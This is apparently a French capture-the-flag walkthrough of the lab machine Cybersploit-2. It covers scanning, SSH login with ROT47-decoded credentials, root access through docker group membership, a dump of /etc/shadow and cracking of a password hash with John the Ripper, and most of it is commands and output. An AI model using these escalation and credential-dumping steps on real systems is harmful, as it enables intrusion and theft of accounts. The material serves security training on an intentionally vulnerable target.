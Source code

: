 # Cybersploit-2
1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.74
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.74...100%
[+] Scan Nmap 192.168.56.74...100%

[+] 22/tcp open
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.74-tcp.html        |
==========================================================

```

&nbsp;

Allons voir ce qu’on trouve sur la page web

![Capture du 2025-02-04 21-23-24](https://github.com/user-attachments/assets/e3812316-2b3a-41c6-81d0-5e199c2f4fd9)


```
┌─[parrot@parrot]─[~]
└──╼ $curl http://192.168.56.74/

<!----------ROT47---------->  
</body>
</html>
```

&nbsp;

Allons déchiffrer `l'utilisateur` & `mot de passe` trouver précédemment

![decrypt_rot47](https://github.com/user-attachments/assets/361617c8-f81c-4cc7-83f1-3c8dc6aeb552)


```
D92:=6?5C2:shailendra
4J36CDA=@:E`:cybersploit1
```

&nbsp;

<span style="color: #dddddd;">🖥️</span> **NetExec**

Test en `SSH` des identifiants trouver

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.74 -u shailendra -p cybersploit1
SSH         192.168.56.74   22     192.168.56.74    [*] SSH-2.0-OpenSSH_8.0
SSH         192.168.56.74   22     192.168.56.74    [+] shailendra:cybersploit1  Linux - Shell access!

```

&nbsp;

**<span style="color: #dddddd;">⚙️</span> GTFObin**

L’utilisateur est dans le groupe `docker`

```
[shailendra@localhost ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

&nbsp;

Allons voir sur `GTFObins` si docker peut nous être utiles

![Capture du 2025-02-08 12-28-35](https://github.com/user-attachments/assets/950121af-0aab-49df-b2b6-a6ce686c41dc)


&nbsp;

Devenir root avec docker avec utilisateur `shailendra` grâce au `GTFObin`

```
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
1f3e46996e29: Pull complete 
Digest: sha256:56fa17d2a7e7f168a043a2712e63aed1f8543aeafdcee47c58dcffe38ed51099
Status: Downloaded newer image for alpine:latest
sh-4.4# bash -i
[root@98e99a67f8c0 /]# 
```

&nbsp;

Dump des `hash` utilisateur

```
[root@98e99a67f8c0 centos]# cat /etc/shadow
root:$6$3d795XDPRsC3pMSF$pQYqtqY2ffdd/RR5zNnEcPUO5JMmsDXU8LjsFFGoAB84UmNosxjgYC.OESYKfpNhaaU1H2dyQY.4g46Vp70As.:18458:0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18456::::::
systemd-coredump:!!:18456::::::
systemd-resolve:!!:18456::::::
tss:!!:18456::::::
polkitd:!!:18456::::::
unbound:!!:18456::::::
sssd:!!:18456::::::
sshd:!!:18456::::::
rngd:!!:18456::::::
centos:$6$bUk/Dj.L.IjunflB$CF2HPXKM6GE8QGaMXpWa7KcTeiPFqb4bHkrkXxvrhXaPtP740vCqMj7WT4QW82bOM3Lzr2YPuc2zr9dvSMrM61::0:99999:7:::
shailendra:$6$X27PMCgNpVKj2WTf$7Ug3MPhwOCmAAHSKuulv88y/THusEchwZDxSVS8lq2llavEKHKE1QmjleJVo35jflcaeJcdCy7paXZ3PcePyN1:18457:0:99999:7:::
apache:!!:18457::::::
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du hash de utilisateur `centos`

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $john hash 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
1234             (centos)     
1g 0:00:00:01 DONE 2/3 (2025-02-04 22:06) 0.5617g/s 1780p/s 1780c/s 1780C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Documents]
└──╼ $john --show hash 
centos:1234::0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| centos | 1234 |
| shailendra | cybersploit1 |
